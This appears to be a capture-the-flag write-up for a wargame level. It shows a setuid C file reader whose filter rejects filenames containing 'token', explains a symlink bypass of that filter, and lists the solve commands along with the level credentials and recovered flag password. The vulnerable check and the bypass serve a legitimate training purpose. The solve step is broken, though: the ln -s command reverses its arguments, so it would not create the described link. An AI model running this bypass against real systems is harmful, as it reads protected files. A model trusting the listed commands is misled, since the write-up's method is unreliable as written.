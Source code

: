 # username / password
level04 / level04
# objective
* This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)
* To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```
# concept
* simlink abuse
* the code lets us read files, but restricts access if the filename includes the string `token`
* however if we create a file that is a symlink to the `token` file, we can bypass the restriction
# method of solve
* Run this command to create a symlink to the `token` file
```
ln -s /tmp/malicious_link /home/flag04/token
/home/flag04/flag04 /tmp/malicious_link
```
The contents of the file are the password for the flag04 account
```
su flag04 # password 06508b5e-8909-4f38-b630-fdb148a848a2
getflag
```
